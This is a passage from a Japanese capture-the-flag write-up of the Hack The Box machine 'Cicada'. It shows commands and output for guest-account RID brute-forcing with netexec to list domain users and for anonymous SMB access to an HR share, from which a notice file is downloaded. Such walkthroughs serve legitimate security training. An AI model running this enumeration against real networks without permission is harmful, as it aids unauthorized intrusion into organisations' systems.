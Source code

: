 ridのブルートフォースで行ったところ列挙に成功しました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ netexec smb CICADA-DC.cicada.htb -u 'guest' -p '' --rid-brute | grep SidTypeUser
SMB                      10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB                      10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

ユーザ名をusers.txtに保存しておきます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ cat users.txt 
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

共有フォルダのHRに読み取り権限があるのでアクセスしてみると、テキストファイルがあったのでダウンロードして中身を調べてみます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Cicada]
└─$ smbclient -U guest \\\\10.10.11.35\\HR
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 21:29:09 2024
  ..                                  D        0  Thu Mar 14 21:21:29 2024
  Notice from HR.txt                  A     1266  Thu Aug 29 02:31:48 2024

		4168447 blocks of size 4096. 438705 blocks available
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (2.0 KiloBytes/sec) (average 2.0 KiloBytes/sec)
```
